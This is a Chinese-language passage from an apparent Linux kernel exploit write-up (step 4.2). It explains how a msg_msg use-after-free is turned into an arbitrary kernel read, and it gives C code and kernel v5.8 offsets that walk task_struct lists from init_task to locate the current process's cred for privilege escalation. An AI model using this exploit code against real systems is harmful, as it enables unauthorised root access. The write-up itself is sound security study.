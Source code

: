 [![](https://p3.ssl.qhimg.com/t01a9c4453a98df5f6a.png)](https://p3.ssl.qhimg.com/t01a9c4453a98df5f6a.png)

### <a class="reference-link" name="4.2%20%E6%AD%A5%E9%AA%A42%E2%80%94%E2%80%94%E8%B6%8A%E7%95%8C%E8%AF%BB%E5%88%B0%E4%BB%BB%E6%84%8F%E8%AF%BB%EF%BC%8C%E6%B3%84%E9%9C%B2%E5%BD%93%E5%89%8D%E8%BF%9B%E7%A8%8B%E7%9A%84cred%E5%9C%B0%E5%9D%80"></a>4.2 步骤2——越界读到任意读，泄露当前进程的cred地址

**思路**：根据`sysfs_bin_kfops_ro` 地址可计算出内核基址，得到[init_task](https://elixir.bootlin.com/linux/v5.8/source/include/linux/sched/task.h#L48)的地址，即系统执行的第一个进程的 [task_struct](https://elixir.bootlin.com/linux/v5.8/source/include/linux/sched.h#L629) 结构。 [task_struct](https://elixir.bootlin.com/linux/v5.8/source/include/linux/sched.h#L629) 中有3个成员很重要：[tasks](https://elixir.bootlin.com/linux/v5.8/source/include/linux/sched.h#L734) 包含指向前后 `task_struct`的指针（偏移0x298），[pid](https://elixir.bootlin.com/linux/v5.8/source/include/linux/sched.h#L804) 进程号（偏移0x398），[cred](https://elixir.bootlin.com/linux/v5.8/source/include/linux/sched.h#L894) 进程的凭证（偏移0x540）。

exp中，我们调用 `find_current_task()` 来遍历所有的task [1]，从`init_task`开始找到当前进程的`task_struct` [2]，`find_current_task()`多次调用 `arb_read()`，**利用UAF篡改`msg_msg-&gt;m_ts` 和`msg_msg-&gt;next`指针，调用`msgrcv()`**泄露出指向下一个task的`tasks-&gt;next`指针 [3] 和 `PID` [4]，然后直到找到当前task。

```
[...]

uint64_t find_current_task(uint64_t init_task)
`{`
    pid_t pid, next_task_pid;
    uint64_t next_task;

    pid = getpid();

    printf("[+] Current task PID: %d\n", pid);
    puts("[*] Traversing tasks...");

    leak = arb_read(0, init_task + 8, 0x1500, 1) + 0x1f9;
    next_task = leak[0x298/8] - 0x298;

    leak = arb_read(0, next_task + 8, 0x1500, 1) + 0x1f9;
    next_task_pid = leak[0x398/8];

    while (next_task_pid != pid)             // [2]
    `{`
        next_task = leak[0x298/8] - 0x298;     // [3]
        leak = arb_read(0, next_task + 8, 0x2000, 1) + 0x1f9;
        next_task_pid = leak[0x398/8];         // [4]
    `}`

    puts("[+] Current task found!");

    return next_task;
`}`

[...]

puts("[*] Locating current task address...");
uint64_t current_task = find_current_task(init_task); // [1]
printf("[+] Leaked current task address: 0x%lx\n", current_task);

[...]
```

